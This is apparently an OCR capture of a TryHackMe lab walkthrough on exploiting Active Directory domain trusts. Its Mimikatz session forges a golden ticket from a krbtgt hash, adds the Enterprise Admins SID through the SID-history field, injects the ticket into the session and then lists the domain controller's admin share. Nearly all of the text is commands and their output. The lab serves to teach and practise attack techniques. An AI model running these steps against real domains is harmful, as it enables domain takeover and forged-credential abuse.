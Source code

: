 ### Exploiting Domain Trusts

We finally have all of the information required to create our forged TGT. We will use Mimikatz to generate this golden ticket. The command will look something like this:

- **Command Prompt**      

```powershell
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
User      : Administrator
Domain    : za.tryhackme.loc (ZA)
SID       : S-1-5-21-3885271727-2693558621-2658995185-1001
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3330634377-1326264276-632209373-519 ;
ServiceKey: 16f9af38fca3ada405386b3b57366082 - rc4_hmac_nt
Service   : krbtgt
Lifetime  : 4/30/2022 7:52:51 PM ; 4/27/2032 7:52:51 PM ; 4/27/2032 7:52:51 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ za.tryhackme.loc' successfully submitted for current session
```

First, we will verify that this ticket works for access to THMDC since it is a valid ticket for the Administrator user of the child domain:

- **Command Prompt**      

```powershell
C:\>dir \\thmdc.za.tryhackme.loc\c$
 Volume in drive \\thmdc.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmdc.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
```

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami